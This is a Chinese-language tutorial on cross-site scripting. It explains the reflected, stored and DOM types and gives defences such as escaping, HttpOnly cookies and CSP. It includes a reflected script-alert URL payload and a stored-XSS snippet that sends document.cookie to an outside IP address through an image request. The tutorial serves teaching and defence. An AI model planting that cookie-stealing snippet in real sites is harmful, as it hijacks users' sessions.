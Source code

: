 ```yaml
---
meta:
  - name: description
    content: 前端跨站脚本攻击
  - name: keywords
    content: 前端跨站脚本攻击,XSS,前端,攻击,
---
```

# 跨站脚本攻击

## 1. 介绍

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

xss攻击的核心方式是脚本。这些脚本通常是javascript脚本，从这个层面来说javascript能做的事情，xss攻击一般都能做到。比如：

+ 通过 document.cookie 盗取 cookie中的信息

+ 使用 js或 css破坏页面正常的结构与样式

+ 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）

+ dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。

+ 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。

+ 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

## 2. 分类

### 2.1 反射型xss

`反射型xss`又被称为`非持久型xss`。当用户访问一个带有xss攻击代码的url请求的时候，向服务器发送请求，服务器接受请求后处理，并把客户端发送的xss攻击代码返回给客户端，客户端解析这段代码的时候，就有可能遭受xss攻击

用户浏览某个网站A，攻击者在这个网站中嵌入了恶意的脚本用于盗取用户的cookie等信息 攻击者诱导用户触发xss攻击（比如诱导用户点击非法链接），当用户触发了xss攻击的时候就会将自己的用户信息发送给攻击者 攻击者在获取用户的cookie后，就有可能盗用用户的身份信息进行非法操作

`http://xxx/search?keyword="><script>alert('XSS');</script>`

#### 反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等

数据流向： 浏览器 -> 后端 -> 浏览器

### 2.2 存储型xss

`存储型xss`又被称为`持久化的xss`。也是最危险的xss攻击方式。一旦攻击成功，就有可能造成大规模的xss攻击，也就是我们通常所说的xss蠕虫。

存储型xss攻击的一般原理是，客户端将带有xss攻击的数据发送给服务器，服务器接收并存储在数据库。当用户下次再访问这个页面的时候，服务器会读取数据库并将之前的xss代码取出发送给浏览器。浏览器解析这段数据的时候，就会遭受xss攻击。

所以，反射型xss攻击一般需要用户手动触发，而存储型xss攻击却是能够自动触发的。一般来说，反射型xss攻击的危害要比存储型xss攻击的危害要小的多。

```js
// 比如通过评论输入框将下面代码提交，之后会执行下面代码
<script type="text/javascript">
document.write("<img src='http://192.168.59.129:10086?c=" + escape(document.cookie) + "'>")
</script>
```

#### 存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里

数据流向： 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器

### 2.3 DOM型xss

我们可以通过JavaScript来操作dom树，所以，xss攻击也是能够做到这一点的。dom型xss攻击最大的危害就是改变我们网页的布局。这种类型的xss是不需要和服务器进行交互的，只发生在客户端处理阶段。比如一段xss攻击的代码是：

```js
const div = document.createElement('div');
div.innerText = 'xss攻击的代码';
document.body.appendChild(div);
```

#### 反射型xss和dom-xss都需要在url加入js代码才能够触发

数据流向： URL -> 浏览器

### 2.4 对比总结

| 类型 | 反射型 | 存储型 | DOM型 |
| --- | --- | ---| ---|
| 触发过程 | 正常用户访问携带XSS脚本的URL | 1.黑客构造XSS脚本<br />2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL |
| 数据存储 | URL| 数据库 | URL |
| 谁来输出 | 后端WEB应用程序 | 后端WEB应用程序 | 前端JS |
| 输出位置 | HTTP响应中 | HTTP响应中 | 动态构建DOM节点 |

## 3. 防范措施

应对XSS攻击的主要手段还是编码与过滤两种，`编码`用于将特殊的符号 "<、>、&、'、""进行html转义，而`过滤`则是阻止特定的标记、属性、事件

### 3.1 转义html

+ 使用encodeURIComponent对url中的参数进行编码(反射型xss)

+ 服务器接收到数据，在存储到数据库之前，进行转义/过滤

+ 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤

### 3.2 HTTP-only Cookie

`HTTP-only`禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作

如果某一个Cookie 选项被设置成 HttpOnly = true 的话，那此Cookie 只能通过服务器端修改，Js 是操作不了的（无法读写这个cookie）

### 3.3 Content-Security-Policy

在服务端使用HTTP的`Content-Security-Policy`头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源

### 3.4 innerText/textContent

+ 在使用 `.innerHTML、.outerHTML、document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等

+ 如果用 Vue/React 技术栈，并且不使用 `v-html/dangerouslySetInnerHTML` 功能，就在前端 render 阶段避免 `innerHTML、outerHTML` 的 XSS 隐患

### 3.5 验证码

防止脚本冒充用户提交危险操作

## 4. 参考资料

[什么是XSS攻击，XSS攻击可以分为哪几类？如何防范XSS攻击？](https://github.com/YvetteLau/Step-By-Step/issues/18)

[web安全之xss攻击](https://zhaosaisai.com/blog/2018/web%E5%AE%89%E5%85%A8%E4%B9%8Bxss%E6%94%BB%E5%87%BB.html)
